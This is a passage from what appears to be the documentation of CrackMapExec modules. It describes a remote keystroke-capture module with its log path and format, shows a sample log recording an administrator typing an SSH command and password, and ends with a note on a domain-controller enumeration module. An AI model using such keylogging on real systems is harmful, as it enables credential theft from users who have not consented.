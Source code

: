 ```
```
**Results File:**
Output files are saved to /root/.cmx/logs/get_keystrokes_\<targetIP\>/  
Results are of the form:  
"Key pressed","username: application","date"  
Below example grabbed the Administrator typing "ssh root@10.10.10.10" the "p@ssword!"  
```
~# cat /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log

��"TypedKey","WindowTitle","Time"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:24 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"h","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"< >","Administrator: Command Prompt","11/29/2018 12:32:25 PM"
"r","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"t","Administrator: Command Prompt","11/29/2018 12:32:26 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:27 PM"
"@","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:28 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:29 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:30 PM"
".","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"1","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"0","Administrator: Command Prompt","11/29/2018 12:32:31 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:32 PM"
"p","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"@","Administrator: Command Prompt","11/29/2018 12:32:34 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:35 PM"
"s","Administrator: Command Prompt","11/29/2018 12:32:35 PM"
"w","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"o","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"r","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"d","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"<Shift>","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"!","Administrator: Command Prompt","11/29/2018 12:32:36 PM"
"<Enter>","Administrator: Command Prompt","11/29/2018 12:32:37 PM"
~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## get_netdomaincontroller
### not currently working due to command length limits see https://github.com/byt3bl33d3r/CrackMapExec/issues/223  
Enumerates all domain controllers  

